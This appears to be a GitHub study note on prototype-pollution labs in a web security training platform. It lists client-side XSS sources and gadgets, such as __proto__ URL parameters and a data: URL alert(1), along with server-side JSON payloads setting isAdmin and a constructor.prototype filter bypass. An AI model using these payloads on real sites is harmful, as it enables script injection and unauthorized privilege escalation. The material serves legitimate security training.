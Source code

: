 # Prototype Pollution

## Lab: DOM XSS via client-side prototype pollution

What is Data Scheme URL? `data:, alert(1)`  
How is the code triggered?   

Source: `/?__proto__.[transport_url]=alert(1)`
Gadget: 
```js
let script = document.createElement('script');
script.src = config.transport_url;
document.body.appendChild(script);
```

## Lab: DOM XSS via an alternative prototype pollution vector

Source: `/?__proto__.sequence=alert(1)==`

Gadget: `eval('if(alert(1)==1){ console.log(1) }');`


## Prototype pollution via the constructor

Source: `?__pro__proto__to__[transport_url]=data:%20,alert(1)`


## Lab: Client-side prototype pollution in third-party libraries
Use "DOM Invader".

## Lab: Client-side prototype pollution via browser APIs
```js
a = {}
a.__proto__.value = 123
b = {c: false}
Object.defineProperty(b, 'c', {configurable: false, writable: false});
b.c
```

what is b.c? why?  
Tip:
```js
a = {value: 123}
b = {}
Object.defineProperty(b, 'c', a)
b.c // would be 123
```


## Lab: Privilege escalation via server-side prototype pollution
Add the following property in change-address request:  
```json
"__proto__": {
    "isAdmin": true
}
```


## Lab: Detecting server-side prototype pollution without polluted property reflection

"__proto__":{
    "content-type": "application/json; charset=utf-7"
}

Question: `what does this mean? "foo in UTF-7 is +AGYAbwBv-"`


## Lab: Bypassing flawed input filters for server-side prototype pollution

Defense: set `__proto__` is not permitted.

```js
"constructor": {
    "prototype": {
        "isAdmin":true
    }
}
```



